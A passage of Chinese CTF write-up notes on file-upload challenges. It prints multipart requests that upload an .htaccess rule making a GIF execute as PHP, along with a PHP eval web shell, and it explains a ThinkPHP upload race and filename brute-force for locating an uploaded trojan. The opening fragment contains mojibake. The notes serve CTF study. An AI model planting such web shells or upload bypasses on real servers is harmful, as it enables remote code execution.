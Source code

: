 ```
鎻愪氦
-----------------------------236354177817844381945461145--

```

### [ACTF2020 新生赛]Upload

与上一题一样，phtml绕过

### [MRCTF2020]你传你🐎呢

传htaccess

```
-----------------------------18277662392071576424237260722
Content-Disposition: form-data; name="uploaded"; filename=".htaccess"
Content-Type: image/gif

<FilesMatch "1.gif">
SetHandler application/x-httpd-php
</FilesMatch>
```

```
-----------------------------18277662392071576424237260722
Content-Disposition: form-data; name="uploaded"; filename="1.png"
Content-Type: image/jpeg

<?php eval($_POST[cmd])?>
```

### [GXYCTF2019]BabyUpload

也是传htaccess

### [WUSTCTF2020]CV Maker

注册然后传文件，没过滤，直接写马蚁剑，但是flag没有。。

### [RoarCTF 2019]Simple Upload

前置知识点：

>   thinkPHP默认上传路径：`/home/index/upload`
>
>   thinkphp默认路由为pathinfo路径形式 →`http://网址/index.php/分组/控制器/操作方法`
>
>   Think PHP upload()多文件上传：
>
>   think PHP里的upload()函数在不传参的情况下是批量上传的，整个`$_FILES`数组的文件都会上传保存，这里可以理解为防护机制只会检测一次，运用条件竞争，多次上传便可以绕过文件后缀的检测。
>
>   ThinkPHP 上传文件名爆破：
>
>    这里的后缀命名方式运用了uniqid函数它是基于微秒的当前时间来更改文件名的，两个同时上传生成的文件名相差不会太远。先上传一个正常文件再上传一个木马文件，然后再上传一个正常文件，然后根据第一和第三个正常文件的文件名之间的差异，爆破出我们上传的木马文件名。
